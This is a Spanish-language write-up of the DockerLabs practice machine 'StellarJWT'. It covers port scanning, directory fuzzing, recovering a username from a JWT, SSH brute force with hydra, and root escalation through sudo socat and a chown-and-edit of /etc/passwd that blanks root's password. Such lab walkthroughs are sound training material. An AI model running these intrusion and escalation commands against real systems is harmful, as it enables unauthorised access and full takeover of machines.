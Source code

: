 # 📘 Informe Técnico - Máquina: *StellarJWT*

* **Nivel:** Fácil
* **Propósito:** Aprender a identificar y explotar una vulnerabilidad en una aplicación web con autenticación basada en JWT.
* **Objetivo:** Obtener acceso root a la máquina a través de técnicas de enumeración, fuerza bruta y escalada de privilegios.

---

![Logo](Imagenes/Logo.png)

## 🛠️ Despliegue de la Máquina

Primero, descargamos el archivo `.zip` desde DockerLabs. Luego lo descomprimimos con:

```bash
unzip stallarjwt.zip
```

Para desplegar la máquina usamos el siguiente comando:

```bash
sudo bash auto_deploy.sh stellarjwt.tar
```

Verificamos que la máquina esté activa con un `ping`:

```bash
ping -c1 172.17.0.2
```

![Ping a la máquina](Imagenes/Capturas.png)

---

## 🔎 Reconocimiento

Escaneo de puertos con `nmap` para descubrir servicios:

```bash
sudo nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 172.17.0.2 -oG allPorts.txt
```

Resultado:

* Puerto 22 → SSH
* Puerto 80 → HTTP (servidor web activo)

![Nmap Puertos](Imagenes/Capturas_1.png)

Usamos mi script personalizado `extractPorts` para filtrar los puertos importantes y luego hacemos un escaneo más detallado de versiones:

```bash
nmap -sCV -p22,80 172.17.0.2
```

![Nmap detallado](Imagenes/Capturas_2.png)

---

## 🌐 Enumeración Web

Visitamos la página web principal pero no encontramos información útil. Por ello, iniciamos una búsqueda de directorios ocultos (fuzzing) usando `gobuster`:

```bash
gobuster dir -u http://172.17.0.2/ \
-w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt \
-t 20 -add-slash -b 403,404 -x .php,.html,.txt
```

Resultados encontrados:

* `/index.html` → Página principal
* `/universe/` → Imagen

![Gobuster resultados](Imagenes/Capturas_4.png)

---

## 🖼️ Análisis de Archivos

Accedemos al directorio `/universe/` y encontramos una imagen:

```bash
wget http://172.17.0.2/universe/universe.jpg
```

Analizamos su metadata con `exiftool`:

```bash
exiftool universe.jpg
```

No encontramos nada relevante.

![Exiftool](Imagenes/Capturas_6.png)

---

## 🔑 Detección de JWT

Al revisar el código fuente de la web, notamos una cadena que parece un token JWT. Al investigar el nombre de la máquina (*stellarjwt*), confirmamos que está relacionada con tokens JWT.

![Código fuente](Imagenes/Capturas_7.png)

Usamos el sitio [jwt.io](https://jwt.io/) para decodificar el token y obtenemos el nombre de usuario:

```
Usuario: neptuno
```

![JWT Decode](Imagenes/Capturas_8.png)

---

## 🧠 Ingeniería Social y Fuerza Bruta SSH

La página web pregunta:
**"¿Qué astrónomo alemán descubrió Neptuno?"**
Respuesta: **Johann Gottfried Galle**

Creamos una lista de contraseñas basada en este nombre:

```bash
nano contraseña.txt
```

Verificamos que el archivo no tenga espacios indeseados:

```bash
cat -A contraseña.txt
```

Realizamos fuerza bruta con `hydra`:

```bash
hydra -l neptuno -P contraseña.txt ssh://172.17.0.2 -t 20
```

Resultado:

```
[22][ssh] host: 172.17.0.2   login: neptuno   password: Gottfried
```

![Hydra resultado](Imagenes/Capturas_10.png)

---

## 📥 Acceso Inicial (SSH)

Ingresamos al sistema con:

```bash
ssh neptuno@172.17.0.2
```

Revisamos los archivos del sistema y encontramos un archivo `.txt` con una contraseña:

```bash
ls -la
cat nasa.txt
```

Contraseña encontrada: **Eisenhower**

Nos conectamos como el usuario `nasa`:

```bash
su nasa
```

Verificamos privilegios sudo:

```bash
sudo -l
```

Salida:

```text
(elite) NOPASSWD: /usr/bin/socat
```

---

## 🚀 Escalada de Privilegios a usuario *elite*

La línea anterior indica que el usuario `nasa` puede ejecutar `socat` como el usuario `elite` sin necesidad de contraseña.

**`socat` permite crear una shell interactiva si se ejecuta correctamente.**

Ejecutamos:

```bash
sudo -u elite /usr/bin/socat stdin exec:/bin/bash
```

Ahora somos el usuario `elite`.

Verificamos nuevamente permisos sudo:

```bash
sudo -l
```

Salida:

```text
(root) NOPASSWD: /usr/bin/chown
```

---

## 👑 Escalada de Privilegios a *root*

El usuario `elite` puede ejecutar `chown` como root. Esto nos permite cambiar el propietario de archivos críticos del sistema como `/etc/passwd`, que contiene la información de usuarios y contraseñas.

### ⚠️ Riesgo

Modificar `/etc/passwd` incorrectamente puede dejar el sistema inoperativo. Lo hacemos cuidadosamente:

1. Cambiar permisos para que `elite` pueda modificar `/etc/passwd`:

```bash
sudo chown elite:elite /etc/
sudo chown elite:elite /etc/passwd
```

2. Editamos la línea de root para quitarle la contraseña:

```bash
echo "$(cat /etc/passwd | sed 's/root:x:/root::/g')" > /etc/passwd
```

3. Nos convertimos en root:

```bash
su
```

Ahora somos root.

![Escalada final](Imagenes/Capturas_15.png)
![Root acceso](Imagenes/Capturas_16.png)

---

## ✅ Conclusión

* Logramos acceso inicial explotando JWT y usando ingeniería social.
* Accedimos vía SSH con `hydra` y credenciales deducidas.
* Escalamos privilegios a través de `socat` y luego abusamos de `chown` para modificar `/etc/passwd`.
* Acceso *root* obtenido con éxito.
